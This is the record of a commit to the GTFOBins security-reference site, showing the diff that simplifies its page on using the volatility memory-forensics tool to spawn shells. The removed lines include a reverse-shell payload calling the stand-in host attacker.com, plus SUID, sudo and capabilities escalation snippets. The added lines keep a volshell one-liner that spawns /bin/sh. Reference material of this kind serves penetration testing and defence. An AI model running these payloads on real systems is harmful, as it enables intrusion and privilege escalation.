

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/volatility.md, in a window 1280 px wide and 1400 px high, scrolled down 224 px. Shown: the whole window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; after the commit the page ends 900 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Simplify

```diff
--- a/_gtfobins/volatility.md
+++ b/_gtfobins/volatility.md
@@ -1,41 +1,8 @@
 ---
-description: The payloads should be compatible with both Python version 2 and 3.
+description: This command requires some valid coredump file which, if not available, can be uploaded to the target. The `volshell` command spawns a [`python`](/gtfobins/python/) shell, other functions may apply.
 functions:
   shell:
     - code: |
-        ./volatility_2.6_lin64_standalone -f cridex.vmem --profile=WinXPSP2x86 volshell
-        \_\_import\_\_("os").system("/bin/sh")
-  reverse-shell:
-    - description: Run ``netcat -lp 12345`` on the attacker box to receive the shell.
-      code: |
-        export RHOST=attacker.com
-        export RPORT=12345
-        ./volatility_2.6_lin64_standalone -f cridex.vmem --profile=WinXPSP2x86 volshell
-        import os,subprocess
-        shell = "import sys,socket,os,pty;s=socket.socket();s.connect((%s,int(%s)));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\\\"/bin/sh\\\")"%(repr(os.getenv("RHOST")),repr(os.getenv("RPORT")))
-        subprocess.call(["/bin/sh","-c","python3 -c \"%s\""%shell])
-  file-write:
-    - code: |
-        ./volatility_2.6_lin64_standalone -f cridex.vmem --profile=WinXPSP2x86 volshell
-        open("file_to_write","w+").write("DATA")
-  file-read:
-    - code: |
-        ./volatility_2.6_lin64_standalone -f cridex.vmem --profile=WinXPSP2x86 volshell
-        print(open("file_to_read").read())
-  library-load:
-    - code: |
-        ./volatility_2.6_lin64_standalone -f cridex.vmem --profile=WinXPSP2x86 volshell
-        from ctypes import cdll; cdll.LoadLibrary("lib.so")
-  suid:
-    - code: |
-        ./volatility_2.6_lin64_standalone -f cridex.vmem --profile=WinXPSP2x86 volshell
-        import os;os.execl("/bin/sh", "sh", "-p")
-  sudo:
-    - code: |
-        ./volatility_2.6_lin64_standalone -f cridex.vmem --profile=WinXPSP2x86 volshell
-        import os;os.system("/bin/sh")
-  capabilities:
-    - code: |
-        ./volatility_2.6_lin64_standalone -f cridex.vmem --profile=WinXPSP2x86 volshell
-        import os;os.setuid(0);os.system("/bin/sh")
+        volatility -f file.dump volshell
+        __import__('os').system('/bin/sh')
 ---
```
